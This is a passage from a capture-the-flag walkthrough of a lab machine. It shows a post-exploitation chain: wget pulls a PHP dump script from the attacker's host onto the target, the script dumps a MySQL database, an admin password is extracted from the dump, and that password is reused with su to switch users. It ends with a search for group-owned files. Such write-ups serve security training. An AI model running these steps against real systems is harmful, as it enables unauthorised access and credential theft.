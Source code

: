 With the databse credentials, let's dump the database for further enumeration.

[The php script here](https://gist.github.com/micc83/fe6b5609b3a280e5516e2a3e9f633675) offers a simple way to dump the database as the mysql client is not available on the host.

Replace the fields with the database credentials we gathered, and upload it.

```
www-data@ubuntu:/tmp$ wget http://10.10.14.7:8000/dbdump.php
<SNIP>
dbdump.php          100%[===================>]     430  --.-KB/s    in 0s      

2020-04-22 00:29:28 (70.2 MB/s) - 'dbdump.php' saved [430/430]
```

Then, let's run it with the command below.

`php dbdump.php`

Finally, we can view its output.

`cat dump.sql`

```
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1
<SNIP>
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<SNIP>
```

We found another set of credentials.

* username: admin
* password: Th3s3usW4sK1ng

While they are credentials for the Magic website, the password could have been **reused**.

In this case, it is also theseus' account password. We can switch to his account with the command below.

`su theseus`

## Enumerating Group Files

Basic enumeration reveals that theseus belong to the `users` group.

```
$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

We can look for files belonging to the `users` group.

```
$ find / -group users 2>/dev/null
/bin/sysinfo
```

